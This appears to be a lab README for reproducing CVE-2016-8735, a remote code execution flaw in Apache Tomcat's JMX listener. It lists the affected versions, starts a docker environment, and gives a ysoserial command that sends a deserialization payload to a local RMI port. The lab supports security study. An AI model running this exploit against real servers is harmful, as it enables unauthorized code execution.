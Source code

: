 # Tomcat Remote Code Execution Vulnability(CVE-2016-8735)

## Introduction

Remote code execution is possible with Apache Tomcat if `JmxRemoteLifecycleListener` is used and an attacker can reach JMX ports. The issue exists because this listener wasn't updated for consistency with the `CVE-2016-3427` Oracle patch that affected credential types.

Impact version:

```
Tomcat [6.0.0 6.0.47]
Tomcat [7.0.0 7.0.72]
Tomcat [8.0.0-RC1 8.0.38]
Tomcat [8.5.0 8.5.6]
Tomcat [9.0.0.M1 9.0.0.M11]
```

Request `jdk < 7u131 or 8u121`

## Usage

Run

```bash
docker-compose up
```

After that, use [ysoserial](https://github.com/frohoff/ysoserial) to exploit it.

```bash
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit localhost 10001 Groovy1 calc.exe
```
